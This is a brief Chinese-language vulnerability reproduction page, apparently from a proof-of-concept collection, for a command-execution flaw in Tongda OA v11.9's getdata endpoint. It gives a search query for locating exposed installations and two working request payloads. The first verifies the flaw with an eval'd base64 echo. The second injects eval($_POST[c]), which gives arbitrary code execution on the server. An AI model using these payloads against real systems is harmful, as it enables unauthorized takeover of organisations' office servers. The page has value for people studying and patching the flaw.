 # 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

<a-checkbox checked>通达OA v11.9 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="通达OA网络智能办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664008395196-d3f13158-1282-4a6a-8725-913db5edf1c0.png)

验证POC

```sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664008478991-cda68968-6ac3-4d74-a583-7f1a42cbced2.png)

``` sql
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```